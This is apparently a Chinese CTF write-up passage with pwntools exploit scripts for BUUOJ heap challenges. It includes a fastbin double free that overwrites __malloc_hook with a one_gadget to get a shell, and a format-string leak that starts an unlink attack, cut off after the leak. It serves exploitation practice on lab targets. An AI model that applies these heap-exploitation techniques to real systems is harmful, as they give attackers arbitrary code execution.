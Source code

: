 ```python
heap_addr = u64(io.recvuntil(b'\n', drop=True).ljust(8, b'\x00'))
log.info('system: ' + hex(system))
log.info('heap addr: ' + hex(heap_addr))

add(0x60, 0x60, b'a\n', b'a\n')		# 3
add(0x60, 0x60, b'a\n', b'a\n')		# 4
delete(3)
delete(4)
add(0x18, 0x18, p64(heap_addr + 0x10) + p64(heap_addr + 0x110), b'b')	# 5
add(0x60, 0x60, b'a\n', b'a\n')		# 6
delete(6)
delete(3)

add(0x60, 0x60, b'a\n', p64(__malloc_hook - 0x23))	# 7
add(0x60, 0x60, b'a\n', b'a\n')	# 8
add(0x60, 0x50, b'b' * 19 + p64(one_gadgets[3]), b'/bin/sh\n')	# 9
# add(0x18, 0x18, b'a\n', p64(system))
# delete(7)
# gdb.attach(io, 'b *0x400C24')
# time.sleep(3)

io.interactive()
'''
```

# buu097-axb_2019_heap
这题的漏洞在于输入的时候会溢出1个字节，因此自然就可以想到使用unlink的方法来做。但这道题有一个很坑的点就是不能用LibcSearcher，虽然它能给你查到2个libc，但是无论你用哪个，远程都打不通，报错，但是用buuoj提供的64位的2.23 glibc就行，这个点坑了我好几个小时才发现。
```python
from pwn import *
context.log_level = 'debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29678)
elf = ELF('./pwn')
libc = ELF('./libc-2.23.so')

sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)

def add(index, size, content):
	sla(b'>> ', b'1')
	sla(b'Enter the index you want to create (0-10):', str(index).encode())
	sla(b'Enter a size:', str(size).encode())
	sla(b'Enter the content: ', content)

def delete(index):
	sla(b'>> ', b'2')
	sla(b'Enter an index:\n', str(index).encode())
	
def edit(index, content):
	sla(b'>> ', b'4')
	sla(b'Enter an index:\n', str(index).encode())
	sla(b'Enter the content: \n', content)

sla(b'Enter your name: ', b'%15$p%19$p')
io.recvuntil(b'0x')
__libc_start_main = int(io.recvuntil(b'0x', drop=True), 16) - 240
elf_addr = int(io.recvuntil(b'\n', drop=True), 16) - 0x116A
note_addr = elf_addr + 0x202060

log.info('__libc_start_main: ' + hex(__libc_start_main))
```